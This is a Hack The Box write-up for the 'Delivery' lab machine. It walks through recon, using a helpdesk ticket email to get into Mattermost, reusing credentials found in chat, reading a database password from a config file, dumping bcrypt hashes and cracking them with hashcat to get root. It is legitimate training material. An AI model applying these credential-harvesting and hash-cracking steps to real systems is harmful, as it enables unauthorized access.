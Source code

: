## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## 🔎 Recon
```bash
nmap -sV -p- -T4 -oA nmap/delivery-all 10.10.10.222
```
- Open ports: 22 (SSH), 80 (HTTP), 8065 (unknown service initially)
- `/etc/hosts` additions:
  ```
  10.10.10.222 delivery.htb helpdesk.delivery.htb
  ```

---

## 🏠 Web Enumeration
- **[Port 80](HTTP):** Static homepage
- **Subdomain found:** helpdesk.delivery.htb
- **Port 8065:** Mattermost interface at `http://delivery.htb:8065/`

### Helpdesk Ticket System
- Created new ticket on `helpdesk.delivery.htb`
  - Email: `test1@delivery.htb`
  - Ticket ID: `4076334`
- Used this info to access Mattermost:
  - Signup using `4076334@delivery.htb`
  - Got email verification link via helpdesk panel

---

## 🔑 Credentials & User Shell
- From Mattermost `town-square` channel:
  ```
  maildeliverer : Youve_G0t_Mail!
  ```
- SSH as maildeliverer:
  ```bash
  ssh maildeliverer@10.10.10.222
  # Password: Youve_G0t_Mail!
  ```
- Captured user flag from `~/user.txt`

---

## ⬆️ Privilege Escalation
### Step 1: Find Credentials
- File: `/opt/mattermost/config/config.json`
```json
"SqlSettings": {
    "DriverName": "mysql",
    "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost",
```
- Credentials: `mmuser : Crack_The_MM_Admin_PW`

### Step 2: Dump Users Table
```bash
mysql -h 127.0.0.1 -u mmuser -p
# Password: Crack_The_MM_Admin_PW
MariaDB> use mattermost;
MariaDB> SELECT Username,Password FROM Users;
```
- Found bcrypt hash for `root`

### Step 3: Crack Bcrypt Hash
- Hint from Mattermost: `PleaseSubscribe!` related password
- Custom wordlist generation:
```bash
echo 'PleaseSubscribe!' > pass.lst
hashcat --stdout pass.lst -r /usr/share/hashcat/rules/best64.rule > custom.lst
```
- Crack hash:
```bash
hashcat -m 3200 -a 0 -o cracked.txt <HASH> custom.lst
```
- Cracked password: `PleaseSubscribe!21`

### Step 4: Root Access
```bash
su root
# Password: PleaseSubscribe!21
```
- Captured root flag from `~/root.txt`

---

## 📄 Summary
- Enumerated support ticket system to gain Mattermost access
- Extracted SSH credentials from chat
- Used MySQL access to retrieve root hash
- Cracked bcrypt hash using rules
- Escalated to root and captured all flags

---

Let me know if you'd like this exported as PDF or visualized as a flow diagram! 🔐

